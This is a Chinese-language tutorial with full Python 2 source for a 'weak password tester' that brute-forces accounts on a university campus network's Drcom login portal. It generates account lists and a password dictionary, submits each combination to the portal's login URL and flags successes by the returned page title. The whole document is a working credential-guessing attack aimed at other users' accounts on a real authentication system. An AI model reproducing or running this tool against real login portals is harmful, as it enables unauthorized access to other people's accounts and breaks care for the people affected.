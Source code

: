 # 校园网弱密码测试器
> 基于上一篇校园网脚本一键登录

在上一篇中, 我们成功地通过 Python 使用帐号和密码登录了校园网, 试想一下, 假如我有很多帐号, 有密码字典, 那岂不是可以暴力穷举帐号的弱密码了吗?

首先, 先确定提交表单的 URL 是全校通用的, 是手机和电脑全平台适用的, 分别在不同的装有 AC 面板的地方连上 wifi, 测试登录脚本 (确定 ACname 和 ACip 唯一), 分别使用不同的手机电脑测试 (确定 ip 是通过 DHCP 分配), 确定下来之后就开始编写脚本了, 首先项目分为两部分, 一部分负责提供帐号密码 (account-password), 称为 APManager, 一部分负责登录验证, 称为 Snipper, 于是我们就有了两个类, 分别对其进行函数填充.

APManager 主要变量有 account_list, 一个存储着所有帐号的 list;account_index, 一个指向 list 的当前下标, 每次测试登录之后, index 都会前移, 同理还有 password_list 和 password_index, 然后有个 generate_account 函数负责按照一定规律 (固定前缀 / 递增) 生成 account 并保存在 accounts.txt 中, 和生成密码字典的 generate_password, 获得下一个 account/password 的 next_account 和 next_password, 每次获取时都会先调用 generate_account/password, 检查下标是否越界, 获得下一个 account/password, 或者返回 None, 还有个 reset_password, 用来将 password_index 归零, 因为 account_list 中的每一个 account 都要用到 password_list 中每一项, 所以需要归零, 而 account_index 不需要归零, 因为一旦测试完了所有的 account, 脚本也就运行结束了, 最后一个函数是 read_file, 负责从文件中读取 account 和 password 组成两个 list.

Snipper 主要变量有 APManager 和 URL, 主要函数有: contract, 负责将 account 和 password(从 APManager 中 next_account 和 next_password 函数获得) 拼接起来组成表单; snip, 负责发起登录请求和结果判断; shedule, 负责调度 APManager 产生 account/password 和 snip

两个类的代码如下:
`APManager.py`
```
# encoding = utf-8
# /usr/bin/python


class APManager():
	"""docstring for APManager"""

	def __init__(self):
		self.account_index = 0
		self.password_index = 0
		self.account_list = []
		self.password_list = []

	def generate_accounts(self):
		"""generate a series of accounts and save to a txt file"""
		accounts = ['1','2','3','4']
		file = open('accounts.txt','w')
		for account in accounts:
			file.write('%s\n' %account)
		file.close()
		print 'generate accounts success'

	def generate_passwords(self):
		"""generate a series of passwords and save to a txt file"""
		passwords = ['1','2','3','6']
		file = open('passwords.txt','w')
		for password in passwords:
			file.write('%s\n' %password)
		file.close()
		print 'generate passwords success'

	def next_account(self):
		self.read_file()
		if self.account_index <len(self.account_list):
			account = self.account_list[self.account_index]
			self.account_index += 1
			print 'next account is %s' %account
			return account
		else:
			print 'no more account'
			return None

	def next_password(self):
		self.read_file()
		if self.password_index <len(self.password_list):
			password = self.password_list[self.password_index]
			self.password_index += 1
			print 'next password is %s' %password
			return password
		else:
			print 'no more password'
			return None			

	def reset_password(self):
		self.password_index = 0

	def read_file(self):
		"""read account and password from txt and save to 2 list"""
		with open('accounts.txt','r') as f:
			lines = f.readlines()
		self.account_list = [line.strip() for line in lines]

		with open('passwords.txt','r') as f:
			lines = f.readlines()
		self.password_list = [line.strip() for line in lines]

		# print self.account_list
		# print self.password_list

if __name__ == '__main__':
	manager = APManager()
	# manager.generate_accounts()
	# manager.generate_passwords()
	account = manager.next_account()
	print account
	password = manager.next_password()
	print password
```
`Snipper.py`
```
# encoding=utf-8
# /usr/bin/python
import urllib2,urllib
import re
import time,sched
from APManager import APManager

class Snipper(object):
	"""docstring for Snipper"""

	def __init__(self):
		self.url = 'https://s.XXXX.edu.cn:801/eportal/?c=ACSetting&a=Login&wlanuserip=192.168.165.193&wlanacip=192.168.255.251&wlanacname=WX6108E-slot5-AC&redirect=&session=&vlanid=XXXX-student&port=80&iTermType=&protocol=https:'
		self.manager = APManager()

	def contract(self,account,password):
		data = urllib.urlencode([('DDDDD', account),
  ('upass', password),
  ('R1', '0'),
  ('R2', ''),
  ('R6', '0'),
  ('para', '00'),
  ('0MKKey', '123456')])
		return data

	def snip(self,account,password):
		data = self.contract(account,password)
		req = urllib2.Request (self.url,data)
		response = urllib2.urlopen(req)
		html = response.read().decode('gb2312')
		# print html
		p = r"<title>(.+?)</title>"
		macher = re.findall(p,html)
		title = ''.join(macher)
		# Drcom PC 登陆信息页
		# Drcom PC 登陆成功页
		# print title
		# print type(title)
		if title == u'Drcom PC 登陆信息页':
			print 'error'
			return False
		elif title == u'Drcom PC 登陆成功页':
			print 'success'
			print account
			print password
			return True
		else:
			print 'unknown error'
			return False

	def schedule(self):
		account = self.manager.next_account()
		password = self.manager.next_password()
		while account is not None:
			if self.snip(account,password):
				account = self.manager.next_account()
			else:
				next_password = self.manager.next_password()
				password = next_password
				if next_password is None:
					self.manager.reset_password()
					password = self.manager.next_password()
					account = self.manager.next_account()


if __name__ == '__main__':
	snipper = Snipper()
	snipper.schedule()
```
